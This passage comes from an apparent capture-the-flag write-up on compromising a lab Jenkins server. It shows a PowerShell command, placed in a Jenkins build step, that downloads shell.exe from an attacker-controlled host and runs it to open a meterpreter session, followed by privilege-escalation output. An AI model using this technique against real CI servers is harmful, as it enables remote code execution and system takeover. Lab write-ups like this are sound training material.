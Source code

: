 Don't forget to hit `run`.


Put `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.136.172:8000/shell.exe','shell.exe')"` into the commands to execute.

![upload meterpreter](build_meterpreter.png)

And then use 'Build Now'.

Repeat with command `shell.exe` or whatever your shell is named.

![meterpreter established](meterpreter_established.png)

## privilege escalation

```
C:\Program Files (x86)\Jenkins\workspace\project>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
```